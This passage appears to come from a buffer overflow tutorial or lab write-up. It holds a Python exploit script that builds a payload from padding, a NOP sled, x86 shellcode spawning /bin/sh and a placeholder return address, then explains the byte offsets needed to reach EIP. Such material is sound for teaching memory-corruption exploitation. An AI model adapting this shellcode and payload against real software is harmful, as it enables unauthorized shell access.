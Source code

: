![buffer overflow 8](/assets/images/12/2021-10-11_13-35.png){:class="img-responsive"}          

```python
#!/usr/bin/python
# exploit.py - final payload with spawn /bin/sh shellcode
shellcode = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80"
padding = "\x41" * (272-64-len(shellcode)-4)
nop = "\x90" * 64
eip = "\x42\x42\x42\x42"
print padding + nop + shellcode + eip

```

In this case, my shellcode length is `25` bytes.

Often it can be useful to insert some no operation instruction (NOPS) before our shellcode begins so that it can be executed cleanly. NOPs are instructions in memory that just says look for the instructions next to me on the stack. Let us briefly summarize what we need for this:      
1. we need total 268 + 4 = 272 bytes to get `eip`.                
2. we can use additional `64` bytes of NOPs.          
3. minimum 25 bytes for our shellcode.       
